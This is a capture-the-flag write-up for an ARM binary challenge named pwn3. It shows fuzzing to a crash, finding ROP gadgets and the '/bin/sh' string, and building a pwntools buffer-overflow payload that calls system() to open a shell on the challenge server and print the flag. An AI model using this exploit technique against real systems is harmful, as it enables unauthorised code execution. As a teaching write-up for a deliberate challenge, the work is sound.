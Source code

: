 # Pwn3 - Simple ARM pwn
This challenge comes with the binary [pwn3](https://github.com/henriknero/writeups/tree/master/pwn3/pwn3)
```
 $ file pwn3 
pwn3: ELF 32-bit LSB executable, ARM, EABI5 version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=46d0723fb9ff9add7b00860a2382f32656a04700, stripped
```
When running the binary it firstly complains that we haven't supplied the file banner.txt, so we create this. Running it again we get the following:
```
$ ./pwn3
bannertext
buffer: 
```
So we can input to a char-buff via stdin. So anyway I just started blasting
```
 $ python -c "print('a'*0x200)" | ./pwn3 
buffertext
buffer: qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault (core dumped)
```
Okey so, pwnlib...
```
pwn template --host pwn3-01.play.midnightsunctf.se --port 10003 pwn3 > exploit
```
```python
...
io = start()
array = cyclic(0x200)
io.sendline(array)

io.interactive()

```
<img src=https://github.com/henriknero/writeups/tree/master/pwn3/screenshot_1.png>

So we have can overwrite the pc with the bufferoverflow, neat. We also see that we have space for some ropping looking at the stack-pointer. Now we just need to find a good gadget. We likely want to find system. 

Conveniently the author uses ```system(cat banner.txt)``` to print the banner. But if this is not the case we can probably search for /bin/sh to locate the function anyways. 

So now lets just prep the registers. I use ROPgadget to find good gadgets.
```
 $ ROPgadget --binary ./pwn3 --only pop
Gadgets information
============================================================
0x0001ddc0 : pop {r0, ip, sp, pc}
0x00015524 : pop {r0, r1, ip, sp, pc}
0x00013c9c : pop {r0, r1, r2, ip, sp, pc}
0x00013080 : pop {r0, r1, r2, r3, ip, sp, pc}
0x000169c4 : pop {r0, r1, r2, r3, r5, ip, sp, pc}
0x00028d90 : pop {r0, r1, r2, r4, ip, sp, pc}
0x00024460 : pop {r0, r1, r2, r6, r7, sb, sl, fp, ip, sp, lr, pc}
0x00014470 : pop {r0, r1, r3, ip, sp, pc}
0x000288f0 : pop {r0, r1, r4, ip, sp, pc}
0x00036558 : pop {r0, r1, r5, ip, sp, pc}
0x00014ee4 : pop {r0, r2, ip, sp, pc}
0x000158b4 : pop {r0, r2, r3, ip, sp, pc}
0x00023b08 : pop {r0, r2, r3, r4, ip, sp, pc}
0x000394f8 : pop {r0, r2, r3, r7, sb, fp, ip, sp, lr, pc}
0x00021edc : pop {r0, r2, r4, r5, ip, sp, pc}
0x0002aa94 : pop {r0, r2, r5, ip, sp, pc}
0x00014c34 : pop {r0, r3, ip, sp, pc}
0x0001c59c : pop {r0, r3, r4, ip, sp, pc}
0x00011b20 : pop {r0, r3, r4, r5, ip, sp, pc}
0x000108fc : pop {r0, r3, r4, r5, r6, r7, r8, ip, lr, pc}
0x00043858 : pop {r0, r3, r5, ip, sp, pc}
0x0002c3a4 : pop {r0, r3, r6, ip, sp, pc}
0x0001e6d8 : pop {r0, r4, ip, sp, pc}
0x0001fb5c : pop {r0, r4, pc}
...

$ ROPgadget --binary ./pwn3 --string /bin/sh
Strings information
============================================================
0x00049018 : /bin/sh
```
And to find the function I just search for references to /bin/sh in ghidra. Or in this case go to the function that takes "cat banner.txt" as argument. (0x14b5c). 

```python
...
array = cyclic(cyclic_find(b'jaab')) + "0123" + p32(0x0001fb5c) + p32(0x00049018) + "1111" + p32(0x14b5d) 
io.sendline(array)
io.interactive()
```
A good thing to notice is that I'm using 0x14b5d instead of 0x14b5c. This is due to ARM instruction alignment. So if you get wierd instructions jumping somewhere, just test shifting the address a little up or down. 

Running this against the remote server we get a shell and can simply print the flag.
```
$ ./exploit 
[*] '/home/henrik/midnight2020/pwn3/pwn3'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
[+] Opening connection to pwn3-01.play.midnightsunctf.se on port 10003: Done
[*] Switching to interactive mode
                                                               ▄▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▄
                                                     ▄▄▄▄▄▄▄▄▄█  ▀                 ▀███
 ▄█████████▄ ▄███     ▄███ ▄███   ▄███ ▄█████████▄   ██████████         ▄   ▄    ▄    █
 ████▀▀▀████ ████     ████ █████▄ ████ ▀▀▀▀▀▀▀████   ██████████    ▄         ▄▀▀▄     █▄▀▀▄
 ████▄▄▄████ ████  ▄  ████ ███████████     ▄▄▄███▀   ▀▀▀▄▀▀▄▀▀█       ▄      █   ▀▄▄▄▄▀   █
 ██████████▀ ████▄███▄████ ████▀▀█████     ▀▀▀███▄   ███▀▄  ▀▀█              █            █
 ████▀▀▀▀▀▀  ██████▀██████ ████  ▀████ ▄▄▄▄▄▄▄████   █████▀▀▄▄█   ▄        ▄█   ▄█   ▄ ▄█  █
 ████        ████▀▀ ▀▀████ ████   ████ ██████████▀   ▀▀▀▀▀▀▀▀▀█      ▄      █ ██ ▄  ▄  ▄ ███
 ▀▀▀▀        ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀    ████████▄█  ▄           ▀▄  ▀▀▀▀▀▀▀ ▄▀
                                                           ▄▀ ▀█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀█▀▀▀█▀▀▀
                                                           █▄▄▀  █▄▄▀        █▄▄▀ ▀▄▄█
buffer: $ ls
banner.txt
flag
pwn3
redir.sh
$ cat flag
midnight{the_pwn_knight_16435f41118a38dd}
```